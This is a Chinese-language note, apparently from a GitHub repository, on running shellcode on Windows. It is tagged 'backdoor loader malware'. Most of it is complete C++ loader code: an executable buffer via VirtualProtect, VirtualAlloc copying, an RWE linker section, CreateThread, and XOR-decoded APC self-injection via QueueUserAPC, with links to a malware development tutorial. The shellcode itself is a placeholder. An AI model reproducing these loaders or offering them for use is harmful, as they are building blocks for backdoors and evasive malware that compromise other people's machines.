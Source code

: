 # 执行shellcode

keywords: backdoor loader 恶意软件  

使用各种方法执行shellcode  


## 作为函数直接调用
直接设置buf可执行  
```cpp
#include <Windows.h>
#include <stdio.h>

int main() {
	unsigned char buf[] = "\x11\x22";

	DWORD old;
	VirtualProtect(buf, sizeof(buf), PAGE_EXECUTE_READWRITE, &old);

	void(*func)();
	func = (void(*)()) & buf;
	func();
	 //((void(*)())buf)();

	return 0;
}
```

先分配可执行内存copy一次，确保有可执行权限：  
```cpp
#include <Windows.h>
#include <stdio.h>

int main() {
	unsigned char buf[] = "\x11\x22";

	LPVOID memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (memory == NULL)
		return 1;
	memcpy(memory, buf, sizeof(buf));
	((void(*)())memory)();

	return 0;
}
```

通过设置新段保证有可执行权限：  
```cpp
#include <Windows.h>
#include <stdio.h>

#pragma data_seg("vdata")
unsigned char buf[] = "\x11\x22";
#pragma data_seg()
#pragma comment(linker, "/SECTION:vdata,RWE")

int main() {
	
	((void(*)())buf)();

	return 0;
}
```


## 使用CreateThread
```cpp
#include <stdio.h>
#include <Windows.h>

int main() {
	unsigned char buf[] = "\x11\x22";

	PVOID shellcode_exec = VirtualAlloc(0, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	RtlCopyMemory(shellcode_exec, buf, sizeof(buf));
	DWORD threadID;
	HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, 0, &threadID);
	WaitForSingleObject(hThread, INFINITE);

	return 0;
}
```


## APC线程注入
APC, Asynchronous Procedure Calls, 异步过程调用，在特定线程的上下文中异步执行函数  
这些函数可以触发异步执行函数调用：  
```r
SleepEx
SignalObjectAndWait
MsgWaitForMultipleObjectsEx
WaitForMultipleObjectsEx
WaitForSingleObjectEx 
```

示例：  
```cpp
#include <stdio.h>
#include <windows.h>
#include <string.h>

int main()
{
    char xor_shell[] = "\x11\x22";

    char* shellcode;
    int shellcode_size = 0;

    for (int i = 0; i < sizeof xor_shell; i++)
    {
        xor_shell[i] ^= 13;
    }

    shellcode = xor_shell;
    shellcode_size = sizeof(xor_shell);

    // 开启一个线程
    HANDLE hthread = OpenThread(16, 0, GetCurrentThreadId());

    // 给现在的进程申请一个可读可执行的内存
    char* buffer = (char*)VirtualAllocEx(GetCurrentProcess(), 0, shellcode_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // 复制内存内容
    CopyMemory(buffer, shellcode, shellcode_size);

    // 将用户模式异步过程调用(APC)对象添加到指定线程的APC队列
    // 这里就是添加到此线程的APC队列
    // 第一个参数是 指向应用程序提供的APC函数的指针，该函数在指定线程执行可警报等待操作时调用
    QueueUserAPC((PAPCFUNC)buffer, hthread, (ULONG_PTR)buffer);

    // 挂起当前线程，直到满足指定条件，超过时间间隔后，执行恢复
    SleepEx(5, 1);

    return 0;
}
```


## 参考链接
1. https://0xpat.github.io/Malware_development_part_1
2. 初九_9 https://www.bilibili.com/video/BV1Km4y1Z73g
3. APC介绍: https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls
4. https://www.bilibili.com/video/BV1GS4y1U7EN
5. https://www.bilibili.com/video/BV1Ti4y1y7Dh


---
2022/2/15  
